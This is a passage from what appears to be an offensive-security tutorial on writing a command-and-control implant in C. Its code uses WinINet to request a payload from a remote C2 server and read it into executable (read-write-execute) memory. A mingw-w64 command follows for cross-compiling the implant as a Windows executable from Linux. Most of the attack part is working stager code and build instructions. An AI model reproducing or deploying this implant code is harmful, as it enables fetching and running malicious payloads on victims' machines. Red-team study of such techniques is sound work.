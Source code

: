 ```c
    const char* acceptTypes[] = { '*','/','*', NULL };

    char method[] = "GET";
    char site_param[] = "success";
    HINTERNET hRequest = HttpOpenRequestA(hConnect, method, site_param, NULL, NULL, acceptTypes, 0, 0);
    if (hRequest == NULL) {
        return 1;
    }

    BOOL bRequestSent = HttpSendRequestA(hRequest, NULL, 0, NULL, 0);

    BOOL bKeepReading = TRUE;
    const int nBuffSize = 100000;
    int size = 0;

    char* buff = VirtualAlloc(0, 100000, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    DWORD dwBytesRead = -1;

    while (bKeepReading && dwBytesRead != 0) {
        bKeepReading = InternetReadFile(hRequest, buff, nBuffSize, &dwBytesRead);
    }
    printf(buff);
		InternetCloseHandle(hRequest);
    InternetCloseHandle(hConnect);
    InternetCloseHandle(hInternet);
    return 0;
}
```

We'll use InternetOpenA to get a handle, InternetConnectA to specify the host and port, HttpOpenRequestA to connect to the host, HttpSendRequestA to make our request, and then InternetReadFile to read the response from the server. I made a hardcoded assumption here that our payload is less than 100000 bytes. In this case we know it will be less than that, and in a real project you should have a good idea what the maximum size of your final payload is.

## Mingw-64

Up until this point I had only ever used the Visual Studio toolchain to compile my payloads. However, the VS tools are only available on Windows hosts, or through an emulator like WINE (though I've never had luck with this). Pretty much every C2 that I've seen was designed to operate from a Linux host for obvious reasons. Since we need to compile C from Linux to Windows, we need to use a cross-compiler like mingw-w64. You can install mingw-w64 using apt or your other favorite package manager.

The command to compile the implant is below. We'll specify the source file, the output file, and include two flags (lwininet and lwinhttp) which tell the linker to include the wininet and winhttp libraries. The -w flag just suppresses warnings.

```cpp
x86_64-w64-mingw32-gcc-win32 ./modified_implant.c -o modified_implant.exe -lwininet -lwinhttp -w
```

